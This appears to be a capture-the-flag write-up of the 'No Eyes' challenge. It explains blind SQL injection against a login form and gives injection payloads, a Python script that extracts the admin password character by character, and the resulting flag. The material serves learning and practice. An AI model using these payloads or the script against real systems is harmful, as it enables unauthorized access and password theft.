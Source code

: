 ### No Eyes - 125 points
> The website isn't really me much, but you can still get the admin password, right?

Hint:
> Sometimes an error message can be just as useful.

This problem involves SQL injection. The website has a login form with two fields: username and password. We want to get the admin's password so, we know there is a username called 'admin'. If we try a random password we get ```Incorrect Password.``` If the query is wrongly made, the page shows us: ```select * from users where pass = ' ... ``` letting us know the table's name, the column's name and the type of query done. With a simple query of the form ``` ' or 1=1; -- ' ``` we get the following message:
```
Login Functionality Not Complete. Flag is 63 characters
```

So this message is interesting. It is telling us that the flag will have 63 characters, but it didn't give us a any kind of error. It just said that the login functionality is not complete. So maybe, we can get the server to tell us if the password is correct by trying character by character. The idea is, if the query is correct we get the above message. If the query is wrong we get the incorrect password message. 

By trying the query:
```
' or 1=1 and pass like 'a%'; -- 
```
We can actually test every character of the admin's password. To do this automatically, I wrote a script in Python:
```python
import requests
import string

chars = string.printable.replace("%", "")

flag = ''

while len(flag) != 63:
    for c in chars:
        r = requests.post('http://shell2017.picoctf.com:40788/',
        	data={'username':'admin', 'password': "' or 1=1 and pass like '" + flag+c+"%';-- "}).text
        if 'Login Functionality Not Complete. Flag is 63 characters' in r:
            flag = flag + c
            print (flag)
            break

```

After a couple of minutes the admin's password is discovered, and we have our flag:
```
not_all_errors_should_be_shown_faa8380e951439eebb3d452b5e86f3f9
```

